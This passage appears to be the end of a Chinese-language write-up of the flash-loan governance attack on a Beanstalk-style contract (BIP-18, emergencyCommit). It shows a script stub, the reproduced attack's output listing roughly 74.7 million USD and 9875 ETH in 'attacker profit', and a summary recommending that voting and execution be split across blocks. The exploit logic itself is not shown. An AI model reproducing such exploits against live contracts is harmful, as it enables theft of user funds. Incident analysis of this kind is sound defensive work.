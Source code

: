 ```javascript
main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});

```

攻击结果：

```
Starting: scripts/exp.js
bip18 contract deployed to: 0x071De7C3f893dF0433aA9875b98573c311cEbEb3
attack contract deployed to: 0xF13a26aE5220Bd9938a01e82D942f7861E137CBf
step 1: get some beans and make a proposal.
step 2: wait for a day, to met the emergencyWithdraw time requirement.
step 3: launch the attack.
Attack Start!
Attack complete!!!
Attacker profit:
usdt:  6386063 USD
dai:   14953731 USD
usdc:  21337084 USD
bean:  32071604 USD
weth:  9875
total: 74748482 USD and 9875 ETH
```



## 总结

涉及项目治理投票的关键操作需要考虑预防闪电贷攻击的防御措施。类似的 emergencyCommit 接口实现时可以将投票和执行操作拆分，在两个区块高度内分别完成，以此抵御闪电贷攻击。